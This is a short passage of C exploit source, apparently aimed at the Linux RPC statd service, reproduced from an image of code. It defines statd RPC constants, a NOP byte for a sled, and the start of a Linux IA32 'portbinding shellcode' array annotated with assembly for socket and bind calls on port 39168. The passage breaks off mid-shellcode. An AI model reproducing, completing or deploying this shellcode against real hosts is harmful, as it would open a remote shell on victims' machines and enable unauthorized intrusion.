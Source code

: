 
#define SM_PROG 100024

#define SM_VERS 1

#define SM_STAT 1

#define SM_MAXSTRLEN 1024

 

#define max(a,b) ((a)>(b)?(a):(b))

 

#define NOP 0x90

 

/*

** Non-ripped linux IA32 portbinding shellcode.

** port: 39168 ; length: 133 bytes

*/

 

char shellcode[] =

"\x31\xc0"                              /* xorl   %eax,%eax             */

/* jmp ricochet ------------------------------------------------------- */

"\xeb\x7c"                              /* jmp    0x7c                  */

/* kungfu: ------------------------------------------------------------ */

"\x59"                                  /* popl   %ecx                  */

"\x89\x41\x10"                          /* movl   %eax,0x10(%ecx)       */

/* ------------------------------------ socket(2,1,0); ---------------- */

"\x89\x41\x08"                          /* movl   %eax,0x8(%ecx)        */

"\xfe\xc0"                              /* incb   %al                   */

"\x89\x41\x04"                          /* movl   %eax,0x4(%ecx)        */

"\x89\xc3"                              /* movl   %eax,%ebx             */

"\xfe\xc0"                              /* incb   %al                   */

"\x89\x01"                              /* movl   %eax,(%ecx)           */

"\xb0\x66"                              /* movb   $0x66,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ bind(sd,&sockaddr,16); -------- */

"\xb3\x02"                              /* movb   $0x2,%bl              */

"\x89\x59\x0c"                          /* movl   %ebx,0xc(%ecx)        */

"\xc6\x41\x0e\x99"                      /* movb   $0x99,0xe(%ecx)       */
